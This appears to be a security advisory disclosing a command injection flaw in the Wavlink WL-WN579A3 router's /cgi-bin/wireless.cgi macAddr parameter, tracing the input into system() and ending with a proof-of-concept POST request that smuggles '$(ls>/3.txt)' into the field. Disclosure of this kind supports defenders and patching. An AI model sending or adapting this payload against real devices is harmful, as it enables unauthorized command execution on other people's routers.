


# Wavlink WN579A3 AddMac
### Overview
vendor: Wavlink

product: WL-WN579A3

version: 20210219

type: Command Injection
### Vulnerability Description
A vulnerability has been found in Wavlink WL-WN579A3 20210219. This vulnerability can be triggered through the route /cgi-bin/wireless.cgi. The manipulation of the argument macAddr leads to command injection. The attack is possible to be carried out remotely. The exploit has been disclosed to the public and may be used.
### Vulnerability Details
In the sub_4033B4 function, the value of the macAddr parameter is obtained via a post request. Then, the value of the macAddr parameter is passed to the v6 variable via the sprintf function, which in turn is passed to the sub_404B58 function. In the sub_404B58 function, the value of the macAddr parameter is ultimately passed to the system function.





### POC
```
POST /cgi-bin/wireless.cgi HTTP/1.1
Host: 192.168.0.1
Content-Length: 32
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://192.168.0.1
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.0.1/html/networkSetting.shtml
Accept-Encoding: gzip, deflate, br
Cookie: session=1158158187
Connection: keep-alive

page=AddMac&macAddr=$(ls>/3.txt)
```